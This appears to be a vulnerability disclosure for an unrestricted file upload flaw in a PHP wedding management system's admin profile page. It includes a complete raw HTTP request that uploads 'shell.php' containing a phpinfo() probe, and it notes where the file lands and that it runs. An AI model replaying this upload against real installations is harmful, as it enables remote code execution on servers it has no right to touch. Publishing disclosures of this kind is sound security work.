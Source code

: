 # WeddingManagement System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/users_profile.php

Loophole location：The editing function of "Liam moore" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "users_profile.php" file.

Click "Edit My Account" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/users_profile.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/users_profile.php
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------270312135209
Content-Length: 1045

-----------------------------270312135209
Content-Disposition: form-data; name="profile_picture"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------270312135209
Content-Disposition: form-data; name="firstname"

Liam
-----------------------------270312135209
Content-Disposition: form-data; name="lastname"

Moore
-----------------------------270312135209
Content-Disposition: form-data; name="email"

admin@mail.com
-----------------------------270312135209
Content-Disposition: form-data; name="username"

adminliam
-----------------------------270312135209
Content-Disposition: form-data; name="gender"

m
-----------------------------270312135209
Content-Disposition: form-data; name="address"

Grand Meadows
-----------------------------270312135209
Content-Disposition: form-data; name="designation"

0
-----------------------------270312135209
Content-Disposition: form-data; name="submit"


-----------------------------270312135209--
```

The files will be uploaded to this directory \admin\upload\users\

![image](https://user-images.githubusercontent.com/54017627/167981060-97d3fdf8-9236-4eff-9e7a-87cc837ec8a4.png)


We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167981077-b13e8a1d-cf3b-4fe7-b0b4-19f24bd278ee.png)
